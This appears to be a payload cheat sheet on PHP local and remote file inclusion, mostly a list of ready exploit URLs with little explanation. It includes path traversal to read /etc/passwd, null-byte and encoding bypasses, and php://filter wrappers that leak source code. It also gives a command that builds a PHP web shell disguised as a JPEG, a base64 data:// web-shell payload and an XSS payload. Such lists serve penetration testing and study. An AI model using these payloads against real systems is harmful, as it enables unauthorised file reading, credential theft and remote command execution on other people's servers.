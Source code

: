 # Local/Remote File Inclusion
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

## Exploit

Basic LFI (null byte and double encoding)
```
http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
```

LFI Wrapper rot13 and base64 - php://filter case insensitive
```
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php=pHp://FilTer/convert.base64-encode/resource=index.php
```

LFI Wrapper zip
```python
os.system("echo \"</pre><?php system($_GET['cmd']); ?></pre>\" > payload.php; zip payload.zip payload.php; mv payload.zip shell.jpg; rm payload.php")
				
http://example.com/index.php?page=zip://shell.jpg%23payload.php
```


RFI Wrapper with "<?php system($_GET['cmd']);echo 'Shell done !'; ?>" payload
```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```


XSS via RFI/LFI with "<<svg<>svg onload=alert(1)>" payload
<svg onload=alert(1)>
```
http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+
```

## Thanks to
* https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion